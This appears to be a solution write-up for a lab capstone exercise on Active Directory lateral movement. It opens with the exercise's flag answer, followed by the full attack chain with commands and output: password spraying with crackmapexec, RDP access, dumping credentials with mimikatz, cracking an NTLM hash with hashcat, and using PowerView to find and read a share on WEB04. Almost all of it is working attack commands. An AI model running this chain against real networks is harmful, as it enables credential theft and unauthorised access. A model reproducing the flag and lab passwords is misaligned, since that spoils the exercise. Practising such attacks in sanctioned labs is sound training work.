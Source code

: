 Topics: Capstone Exercise
# Questions 4
Capstone Exercise: Once VM Group 4 is started, the domain corp.com has been modified. Log in as the leon user on CLIENT76 and use the techniques discussed in this Module to move laterally and get the flag in the WEB04 shared folder.
# Answer
OS{7d4d71606ca26c4f5a1da18228eef1d7}

# Password spraying first
sudo crackmapexec smb 192.168.185.70-76 -u leon -p 'HomeTaping199!' -d corp.com --continue-on-success
...
SMB         192.168.185.76  445    CLIENT76         [+] corp.com\leon:HomeTaping199! (Pwn3d!)
...
# Only CLIENT76 is pwned

# Nvm, lets proceed the rdp
xfreerdp /cert-ignore /v:192.168.185.76 /u:leon /p:HomeTaping199! +home-drive

PS C:\Users\leon.CORP.000> whoami /groups
...
NT AUTHORITY\REMOTE INTERACTIVE LOGON      Well-known group S-1-5-14     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\INTERACTIVE                   Well-known group S-1-5-4      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
...

mimikatz # privilege::debug
mimikatz # sekurlsa::logonpasswords
...
         * Username : dave
         * Domain   : CORP
         * NTLM     : 08d7a47a6f9f66b97b1bae4178747494
...
# We obtained dave user NTLM hash. Nice! Now we can see if we can proceed more on dave user
hashcat -D 1 -m 1000 hashes /usr/share/wordlists/rockyou.txt --show --force
08d7a47a6f9f66b97b1bae4178747494:Flowers1

# Perform password spraying again
sudo crackmapexec smb 192.168.185.70-76 -u dave -p 'Flowers1' -d corp.com --continue-on-success
...
SMB         192.168.185.75  445    CLIENT75         [+] corp.com\dave:Flowers1 (Pwn3d!)
SMB         192.168.185.74  445    CLIENT74         [+] corp.com\dave:Flowers1 (Pwn3d!)
...

# Lets switch to CLIENT75
xfreerdp /cert-ignore /u:dave /d:corp.com /p:Flowers1 /v:192.168.185.75

PS C:\Tools> whoami /groups
...
CORP\Development Department                Group            S-1-5-21-1987370270-658905905-1781884369-1127 Mandatory group, Enabled by default, Enabled group
CORP\Sales Department                      Group            S-1-5-21-1987370270-658905905-1781884369-1125 Mandatory group, Enabled by default, Enabled group
...
# Dave user own the group of Development Department and Sales Department

PS C:\Tools> powershell -ep bypass
PS C:\Tools> Import-Module .\PowerView.ps1
PS C:\Tools> Find-DomainShare
...
backup            0                        web04.corp.com
C                 0                        FILES04.corp.com
docshare          0 Documentation purposes FILES04.corp.com
Tools             0                        FILES04.corp.com
Users             0                        FILES04.corp.com
Windows           0                        FILES04.corp.com
sharing           0                        client75.corp.com
...
PS C:\Tools> ls \\Web04.corp.com\backup
-a----         9/13/2022   2:52 AM              0 backup_schemata.txt
-a----         5/21/2024   7:58 PM             78 proof.txt
PS C:\Tools> cat \\web04.corp.com\backup\proof.txt
OS{7d4d71606ca26c4f5a1da18228eef1d7}